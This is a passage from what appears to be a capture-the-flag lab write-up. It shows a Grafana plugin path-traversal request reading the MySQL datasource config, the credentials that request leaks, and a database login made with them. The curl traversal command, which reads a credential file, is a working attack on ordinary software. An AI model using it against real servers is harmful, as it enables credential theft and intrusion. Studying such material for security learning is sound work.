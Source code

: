 #### Get mysql.yaml

The config file for this data source will likely have the creds for MySQL in it. The [Grafana docs](https://grafana.com/docs/grafana/latest/administration/provisioning/#data-sources) show that these configs live in `/etc/grafana/provisioning/datasources`.

I’ll get the file with the file read vuln:

```

oxdf@hacky$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml
apiVersion: 1

datasources:
 - name: mysql.yaml 
   type: mysql
   host: localhost
   database: grafana
   user: grafana
   password: dontStandSoCloseToMe63221!
   editable: false

```

#### Connect to MySQL

I’ll try these creds to connect to the DB, and they work:

```

oxdf@hacky$ mysql -h 10.10.11.183 -u grafana -p'dontStandSoCloseToMe63221!'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

```

### SSH

#### Enumerate Databases

MySQL is running two non-standard databases, `grafana` and `whackywidget`:
